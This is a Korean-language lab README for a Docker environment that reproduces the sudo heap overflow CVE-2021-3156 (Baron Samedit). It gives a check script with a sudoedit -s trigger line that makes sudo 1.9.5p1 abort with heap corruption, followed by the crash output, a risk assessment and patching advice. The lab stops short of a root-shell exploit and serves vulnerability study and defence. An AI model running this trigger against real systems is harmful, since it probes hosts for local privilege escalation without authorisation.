



# CVE-2021-3156 - Sudo Baron Samedit

## 취약점 요약

CVE-2021-3156은 `sudo`의 명령행 인자 처리 과정에서 발생하는 heap-based buffer overflow 취약점이다. Qualys는 이 취약점을 Baron Samedit이라고 명명했으며, 로컬 일반 사용자가 취약한 `sudo`를 통해 권한 상승을 시도할 수 있다고 설명한다.

- 취약 제품: sudo
- 취약 버전: 1.8.2 ~ 1.8.31p2, 1.9.0 ~ 1.9.5p1
- 취약 유형: Heap-based Buffer Overflow
- 영향: Local Privilege Escalation
- CVSS v3.1: 7.8 High
- CVSS Vector: `AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`

> 본 실습 환경에서는 root shell 획득 exploit 대신, `sudoedit -s` 입력으로 heap corruption이 발생하는 취약 동작을 재현한다.

## 환경 구성

본 환경은 Docker Compose로 실행한다.

```bash
docker compose up -d
docker compose exec vulnerable bash
```

구성 파일은 다음과 같다.

```text
Sudo/CVE-2021-3156/
├── docker-compose.yml
├── README.md
├── sudo-1.9.5p1.tar.gz
├── 1.png
├── 2.png
└── 3.png
```

컨테이너 내부 구성은 다음과 같다.

- Base image: `ubuntu:20.04@sha256:8feb4d8ca5354def3d8fce243717141ce31e2c428701f6682bd2fafe15388214`
- 취약 sudo 버전: `sudo 1.9.5p1`
- 실습 사용자: `attacker`
- sudo 소스 파일: `sudo-1.9.5p1.tar.gz`

빌드 재현성을 높이기 위해 `sudo-1.9.5p1.tar.gz`를 환경 폴더에 포함하고, `docker-compose.yml`의 `dockerfile_inline` 설정에서 해당 파일의 SHA256 해시를 검증한 뒤 빌드한다. 따라서 별도 Dockerfile 없이 Docker Compose 파일을 기준으로 환경이 구성된다.

## 취약 조건

취약 조건은 다음과 같다.

1. `sudo`가 CVE-2021-3156에 취약한 버전이어야 한다.
2. 일반 로컬 사용자가 `sudoedit` 명령을 실행할 수 있어야 한다.
3. `sudoedit -s`와 백슬래시로 끝나는 인자 조합이 전달되어야 한다.

본 실습에서는 `attacker` 사용자로 접속한 뒤, 다음 형태의 명령을 실행하여 취약 동작을 확인한다.

```bash
sudoedit -s '\' "$(python3 -c 'print("A"*65536)')"
```

## 재현 절차

### 1. 취약 환경 빌드 및 실행

```bash
docker compose up -d
```

깨끗한 환경에서 재검증하거나 Compose의 빌드 설정을 수정한 뒤 다시 빌드해야 하는 경우에는 다음 명령을 사용할 수 있다.

```bash
docker compose build --no-cache
docker compose up -d
```



### 2. 컨테이너 접속

```bash
docker compose exec vulnerable bash
```

### 3. 사용자 및 sudo 버전 확인

```bash
whoami
id
sudo --version | head -n 1
```

예상 결과:

```text
attacker
uid=1000(attacker) gid=1000(attacker) groups=1000(attacker)
Sudo version 1.9.5p1
```



### 4. PoC 실행

```bash
./check.sh
```

## PoC 코드

컨테이너 빌드 과정에서 `/home/attacker/check.sh`가 생성된다.

```bash
#!/bin/bash

echo "[*] Current user"
id

echo
echo "[*] Sudo version"
sudo --version | head -n 1

echo
echo "[*] CVE-2021-3156 trigger test"
echo "[*] If vulnerable, sudoedit may abort with heap corruption message."

sudoedit -s '\' "$(python3 -c 'print("A"*65536)')"
```

## 실행 결과

PoC 실행 시 다음과 같이 heap corruption이 발생하며 `sudoedit` 프로세스가 중단된다.

```text
[*] Current user
uid=1000(attacker) gid=1000(attacker) groups=1000(attacker)

[*] Sudo version
Sudo version 1.9.5p1

[*] CVE-2021-3156 trigger test
[*] If vulnerable, sudoedit may abort with heap corruption message.
malloc(): corrupted top size
Aborted                 sudoedit -s '\' "$(python3 -c 'print("A"*65536)')"
```



## 위험도 평가

- Risk Score: 7.8
- 공격 벡터: Local
- 공격 복잡도: Low
- 필요 권한: Low
- 사용자 상호작용: None
- 영향: Confidentiality / Integrity / Availability 모두 High

이 취약점은 원격 RCE는 아니지만, 취약한 시스템에 로컬 계정이 있는 공격자가 root 권한 상승을 노릴 수 있으므로 위험도가 높다.

## 대응 방안

1. `sudo`를 1.9.5p2 이상 또는 배포판 보안 패치가 적용된 버전으로 업데이트한다.
2. 운영체제 패키지 관리자를 통해 보안 업데이트를 적용한다.
3. 불필요한 로컬 계정과 sudo 사용 권한을 최소화한다.
4. `/var/log/auth.log` 등 인증 로그에서 비정상적인 `sudoedit` 실행 흔적을 점검한다.

Ubuntu/Debian 계열 예시:

```bash
sudo apt-get update
sudo apt-get install --only-upgrade sudo
```

## 참고 자료

- NVD - CVE-2021-3156: https://nvd.nist.gov/vuln/detail/CVE-2021-3156
- Qualys - Baron Samedit 분석: https://blog.qualys.com/vulnerabilities-threat-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit
- Sudo Project: https://www.sudo.ws/
